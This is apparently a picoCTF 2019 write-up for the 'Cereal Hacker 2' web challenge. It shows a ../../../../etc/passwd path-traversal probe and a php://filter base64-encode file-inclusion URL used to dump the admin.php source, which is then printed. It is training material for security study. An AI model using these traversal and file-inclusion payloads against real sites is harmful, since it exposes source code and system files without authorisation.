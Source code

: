 <h3>Challenge #18 Cereal Hacker 2</h3>
<blockquote>Get the admin's password. https://2019shell1.picoctf.com/problem/62195/ or http://2019shell1.picoctf.com:62195</blockquote>

Same login page as in Cereal Hacker 1.<br>I could have use some of the pentesting tools for scanning vulnerabilities , but I was doing this manually. I started for searching for LFI/RFI and to access for example <code>../../../../etc/passwd</code>. <br>The file wasn't found but i saw that it is appending .php extension at the end as a message. So that means we can actually get to the local files ,or the inclusion was done by using most likely require_once php method. One of the solutions to get to certain file was using <code>php://filter/convert.base64_encode/resource</code> . With this I am able to see any php file that is out there by outputing b64 , before it's being used by require_once method. <br> So first I tried with <blockquote>https://2019shell1.picoctf.com/problem/62195/index.php?file=php://filter/convert.base64-encode/resource=admin</blockquote>
<br>
And that gave me base64 output , after decoding b64 we've got code from admin.php which looked like this : 

```php

 <?php

require_once('cookie.php');

if(isset($perm) && $perm->is_admin()){
?>
	
	<body>
		<div class="container">
			<div class="row">
				<div class="col-sm-9 col-md-7 col-lg-5 mx-auto">
					<div class="card card-signin my-5">
						<div class="card-body">
							<h5 class="card-title text-center">Welcome to the admin page!</h5>
							<h5 style="color:blue" class="text-center">Flag: Find the admin's password!</h5>
						</div>
					</div>
				</div>
			</div>
		</div>

	</body>

<?php
}
else{
?>
	
	<body>
		<div class="container">
			<div class="row">
				<div class="col-sm-9 col-md-7 col-lg-5 mx-auto">
					<div class="card card-signin my-5">
						<div class="card-body">
							<h5 class="card-title text-center">You are not admin!</h5>
							<form action="index.php" method="get">
								<button class="btn btn-lg btn-primary btn-block text-uppercase" name="file" value="login" type="submit" onclick="document.cookie='user_info=; expires=Thu, 01 Jan 1970 00:00:18 GMT; domain=; path=/;'">Go back to login</button>
							</form>
						</div>
					</div>
				</div>
			</div>
		</div>

	</body>

<?php
}
?>

```
<br>
We can see that is using require_once for cookie.php so I just followed the same steps for all the things that I could get.